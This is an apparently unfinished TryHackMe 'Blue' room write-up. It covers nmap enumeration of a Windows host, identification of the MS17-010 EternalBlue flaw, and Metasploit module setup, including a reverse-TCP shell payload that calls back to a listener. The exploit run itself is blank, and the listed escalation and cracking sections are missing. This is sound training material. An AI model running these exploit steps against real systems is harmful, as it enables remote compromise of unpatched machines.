 ## Index

1. [Setup](#setup)
2. [Enumeration](#enumeration)
3. [Gaining Access](#gaining-access)
4. [Privilage Escalation](#privilage-escalation)
5. [Cracking](#cracking)



## Setup

To begin this challenge, we first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using openvpn to connect to the server. Here's the command:

```console
$ sudo openvpn --config NovusEdge.ovpn
```

## Enumeration

Once the machine is started, we'll start by scanning the network: 

```console
$ sudo nmap -sS -vv MACHINE_IP
...
Initiating SYN Stealth Scan at 15:45
Scanning MACHINE_IP [1000 ports]
Discovered open port 135/tcp on MACHINE_IP
Discovered open port 3389/tcp on MACHINE_IP
Discovered open port 139/tcp on MACHINE_IP
...
PORT      STATE SERVICE       REASON
135/tcp   open  msrpc         syn-ack ttl 127
139/tcp   open  netbios-ssn   syn-ack ttl 127
445/tcp   open  microsoft-ds  syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127
49152/tcp open  unknown       syn-ack ttl 127
49153/tcp open  unknown       syn-ack ttl 127
49154/tcp open  unknown       syn-ack ttl 127
49158/tcp open  unknown       syn-ack ttl 127
49160/tcp open  unknown       syn-ack ttl 127

...
```

So, from this simple scan, we get the answer to the first question asked in the room:

> How many ports are open with a port number under 1000?
> > 3

We can further check the service versions by running a service scan on ports `135`, `139` and `445`:

```console
$ nmap -sV -vv -p135,139,445 MACHINE_IP 
...

PORT    STATE SERVICE      REASON  VERSION
135/tcp open  msrpc        syn-ack Microsoft Windows RPC
139/tcp open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

...
```

Nothing interesting... Well, the answer to the next question will be the exploit code corresponding to the `Eternal Blue` exploit. How did I get to that conclusion? To be honest, it's quite obviously displayed all over the web page when you view the room on Tryhackme: 

![](blue-room-top.png)

A simple and quick search tells us the exploit's alternative name:

![](eblue-search.png)

Thus, we get the answer to the next question:

> What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
> > MS17-010

## Gaining Access

Armed with the knowledge we gained from the enumeration phase, let's try and exploit the machine we're given.

Now, there's 2 ways to do this, with metasploit and without it. We'll try and do it with metasploit but I'll try and make a section where I give it a go without using metasploit.

After we fire up `msfconsole`, we can try and search for any available exploits:

```console
$ sudo msfconsole -q
msf6 > search eternal blue

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution                 
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection                                                                                  
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

The one we're looking for is the first one, `exploit/windows/smb/ms17_010_eternalblue`. So we get the answer for the first question in this section:

> Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
> > exploit/windows/smb/ms17_010_eternalblue

We can have a look at the options of the module we've selected like so:

```console
msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target ma
                                             chines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machin
                                             es.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.80.0.96       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

We'll need to set some of these, the first and most essential being `RHOSTS`:

```console
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS  MACHINE_IP 
RHOSTS => MACHINE_IP
```

That's the answer to the second question:

> Show options and set the one required value. What is the name of this value? (All caps for submission)
> > RHOSTS

Next, we'll be setting the payload for the exploit, I'll be using `windows/x64/shell/reverse_tcp` as indicated in the room's instructions:

```console
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
```


And now, we just run the exploit and see the magic happen!
> Note that if this does not work, just reboot the VM by terminating it and starting it again, and then running this exploit after updating RHOSTS

```console
```

#### Well, The exploit's not working at all for me, so I'll update this writeup when it does. Cheers!

--- 

Link to the room: https://tryhackme.com/room/blue

